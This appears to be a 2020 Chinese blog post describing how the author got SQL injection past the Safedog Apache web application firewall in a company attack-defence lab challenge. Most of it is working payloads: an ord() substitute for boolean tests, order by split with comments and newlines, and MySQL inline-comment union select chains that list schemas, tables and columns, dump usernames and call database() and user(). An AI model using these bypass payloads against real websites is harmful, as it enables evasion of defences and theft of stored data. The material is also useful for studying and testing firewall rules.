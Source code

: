 ```json
{
  "date": "2020-04-20 02:40:00",
  "tags": ["bypass", "安全狗", "sql注入"],
  "description":"nothing"
}
```


最近虽然比较忙,但是还是想写点技术方面的东西做个记录。

正好给公司攻防环境出了一道web的题加了狗，就试着绕一下分享出来吧.

# 环境预览

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411152727-e55c5b3a-7bc5-1.png)
用了最新版的安全狗apache版本4.0

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153001-412b1776-7bc6-1.png)
漏洞环境

# 绕过and 1=1

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153404-d20f09aa-7bc6-1.png)
and 1=1拦截



![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153425-dead60da-7bc6-1.png)
and ord(0x1) == and True
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153511-fa1c4dc2-7bc6-1.png)
and ord(0x0) == and False

# 绕过 order by 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153559-16b1b170-7bc7-1.png)
正常order by 被咬

在 order 和by之间放点无效字符，然后再换个行

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153729-4c5d9744-7bc7-1.png)

```sql
order /*|--|*/--+%20%0Aby 3%23 绕过
```

# 绕过 union select 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411154251-0c305aca-7bc8-1.png)
union select 1,2,3  被咬


这里用内连注释+空语句+注释+换行

注：MySQL数据库为了保持与其他数据库兼容，特意新添加的功能。 为了避免从MySQL中导出的SQL语句不能被其他数据库使用，它把一些 MySQL特有的语句放在 /*! ... */ 中，这些语句在不兼容的数据库中使用时便 不会执行。而MySQL自身却能识别、执行。  /*50001 */表示数据库版本>=5.00.01时中间的语句才会执行。 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155107-33b812bc-7bc9-1.png)

```sql
 /*!union*/ /*!*/ --+1%0Aselect 1,2,3 %23 绕过
```

# 获取数据

不演示被咬的了...

到了这里就比较简单了

内连注释+空语句+注释+换行 可绕所有

### 查库

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155459-be4761c6-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!schema_name*/) /*!from*/ information_schema.schemata--+*/%23
```

### 查表

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155539-d60cffc8-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!table_name*/) /*!from*/ information_schema.tables where table_schema=0x747261696E--+*/%23
```

### 查字段

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155624-f087b3f2-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!column_name*/) /*!from*/ information_schema.columns where table_name=0x7573657273--+*/%23
```

### 查数据

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155258-75fef2da-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT%201,2,concat(/*!username*/)%20/*!from*/%20users--+*/%23
```

### 系统函数

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160010-7755eeda-7bca-1.png)
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160031-842ab618-7bca-1.png)

这里常规的方法还是被咬，但是用变量处理一下就直接过了。


```sql
/*!union*//*!*/--+1%0ASELECT 1,@s:=database/**/(),1%23

/*!union*//*!*/--+1%0ASELECT 1,@s:=user/**/(),1%23
```
